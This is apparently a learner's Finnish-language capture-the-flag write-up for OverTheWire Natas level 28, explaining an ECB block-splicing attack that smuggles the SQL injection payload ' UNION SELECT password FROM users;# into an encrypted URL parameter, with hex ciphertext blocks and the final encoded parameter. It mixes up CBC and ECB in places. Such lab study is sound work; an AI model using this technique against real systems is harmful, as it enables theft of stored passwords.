- Jos lohkoja muokkaa oikein, voi rakentaa uuden salatun kyselyn, vaikka ei tiedä alkuperäistä avainta.


🧨 Hyökkäyksen idea:
- Luotiin turvallinen alku (header), joka ei riko syntaksia.
- Poimittiin injektion lohkot (esim. ' UNION SELECT password FROM users;#).
- Korvattiin osa lohkoista ja rakennettiin uusi salattu kysely.
- Lopuksi base64-enkoodattiin ja URL-enkoodattiin parametri, ja lähetettiin se palvelimelle.


Tässä haasteessa opin, miten CBC-salaus toimii lohkoittain ja miten salattua URL-parametria voi manipuloida ilman salausavainta. Rakensin uuden kyselyn korvaamalla lohkoja, ja näin sain SQL-injektion toimimaan. Vaikka en aluksi ymmärtänyt kaikkea, opin käytännössä miten lohkot vaikuttavat toisiinsa ja miten salattua dataa voi hyödyntää hyökkäyksessä. Tämä oli hyvä esimerkki siitä, miten salaus ja web-haavoittuvuudet voivat yhdistyä.

**kuitenkin**

Koskien sitä skriptiä kun se runnaa ja rakentaa sen **input of length** jotakin bittiä ja tulostaakseen sitä merkki määrää. Ongelmana ei ihan täsmenny **cyberchef** sivuston mukaan - mutta hyvä työkalu sekin on.

Tästä tarkistettu kuitenkin useampi kerta sitä luku:

```
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
3917a542aa9c15d450a53927be3860e5
574d86bbdcff747464514968f43c9240
1f26b6ae470f5fc111eb274c0c213e95
c0db24b5274ba212d1b06e990c8db29f
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
```

- operaatiota: `from hex` -> `to base64` -> `URL encode`.

output:
- `G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPI5F6VCqpwV1FClOSe%2BOGDlV02Gu9z%2FdHRkUUlo9DySQB8mtq5HD1%2FBEesnTAwhPpXA2yS1J0uiEtGwbpkMjbKfSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc%3D`

Joko yhteen tai erikseen kuitenki se cyberchef sivusto ei tykkää siitä ja sama oiskin tuloksena en tiedä vielä ymmärrä miksi ei anna just mitä **python skripti antaakaan**. ECB-salaus ei sekoita lohkoja — se salaa jokaisen erikseen. Mutta **base64 koodaa koko yhdistelmän yhtenä datana**.

### linkistä lisäteoriaa ja apua

https://learnhacking.io/overthewire-natas-level-28-walkthrough/

https://the-dark-lord.medium.com/natas-wargames-16-30-fbde4edd41d4

https://axcheron.github.io/writeups/otw/natas/#natas-28-solution

https://anyafachri.medium.com/ebc-block-splicing-attack-for-successful-sql-injection-natas28-overthewire-write-up-6e83eb1815ac

https://www.youtube.com/watch?v=oWmfYgCYmCc


https://blog.sudarshandevkota.com.np/overthewire-natas-walkthrough 

https://techyrick.com/natas-overthewire-writeup-otw/


